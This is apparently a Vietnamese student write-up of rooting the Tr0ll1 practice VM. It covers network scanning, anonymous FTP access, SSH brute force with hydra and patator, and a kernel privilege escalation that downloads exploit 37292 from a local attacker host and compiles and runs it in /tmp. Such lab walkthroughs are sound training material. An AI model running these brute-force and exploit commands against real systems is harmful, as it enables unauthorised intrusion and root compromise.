# Khai thác máy ảo  Troll1
## Người thực hiện :Trần Minh Đức

1. Network Discovery and Host Scanning
Network Discovery:
Mở Terminal trong Kali Linux, thực hiện dò tìm mạng bằng lệnh sau:
netdiscover -I eth1



Xác định các thiết bị đang hoạt động trong mạng và IP mục tiêu.

Quét thông tin hệ thống mục tiêu:
Dùng Nmap để thực hiện quét tất cả các cổng và thu thập thông tin hệ thống chi tiết trên IP mục tiêu (192.168.56.115):

`nmap -p- -A 192.168.56.115`



2. Khai thác qua Giao thức FTP
Kết nối FTP:
Kết nối đến dịch vụ FTP của mục tiêu:
ftp 192.168.56.115
Đăng nhập với thông tin tài khoản:
Username: anonymous
Password: anonymous
Tải file nhạy cảm:
Liệt kê thư mục và tải tệp tin có tên lol.pcap:
ls
get lol.pcap
quit



Phân tích file pcap:
Sử dụng tcpdump để phân tích file pcap đã tải:
sudo tcpdump -nnttttAr lol.pcap | less -Sr



3. Khai thác Web Interface
Truy cập giao diện Web:
Điều hướng đến giao diện quản trị web với đường dẫn:
http://192.168.56.115/sup3rs3cr3tdirlol

Tải tệp bổ sung:
Tải file roflmao từ giao diện web, gán quyền và chạy.




4. Xác định địa chỉ tài nguyên nhạy cảm
Dò tìm địa chỉ tài nguyên:
Tìm kiếm một địa chỉ xác định từ file roflmao tải về, ví dụ:
http://192.168.56.115/0x0856BF/

Truy xuất nội dung:
Tải và sao chép nội dung của file văn bản nhạy cảm từ địa chỉ này để phân tích thêm.



Click vào file txt trên



Paste nội dung vào file usernames



Tiếp đến qua phần password



5. Xâm nhập qua SSH Brute Force
Brute Force SSH:
Thực hiện brute-force SSH bằng hydra:
hydra -L usernames -p Pass.txt 192.168.56.115 ssh -t1
Tệp usernames chứa danh sách tên người dùng thử nghiệm, trong khi Pass.txt là tệp chứa các mật khẩu.



Thực hiện brute force nâng cao:
Clone công cụ patator và dùng nó để brute-force:
git clone https://github.com/lanjelot/patator.git
cd patator
python3 -W ignore patator.py ssh_login host=192.168.56.115 user=FILE0 0=/root/usernames  password=Pass.txt




6. Privilege Escalation
Kết nối SSH và kiểm tra hệ thống:
Đăng nhập vào hệ thống với mật khẩu đã tìm được ở hydra phía trên:
ssh overflow@192.168.56.115



Nâng quyền:
Tìm kiếm phương pháp nâng quyền trên hệ thống Ubuntu 14.04 với kernel 3.13:
Tìm kiếm và tải mã khai thác phù hợp từ internet.
Tìm thấy lỗ hổng sau: https://www.exploit-db.com/exploits/37292






Thực thi mã khai thác:
Chạy mã trong ssh overflow để nâng quyền:
`cd /tmp`

`wget http://192.168.56.157/37292.c`

`gcc 37292.c -o 37292`

`chmod +x 37292`

`./37292`



4.Xác minh quyền root:
Sau khi nâng quyền, xác minh tài khoản hiện tại và kiểm tra các tệp tin nhạy cảm:  

`id`
`whoami`
`cd /root`
`ls`
`cat proof.txt`


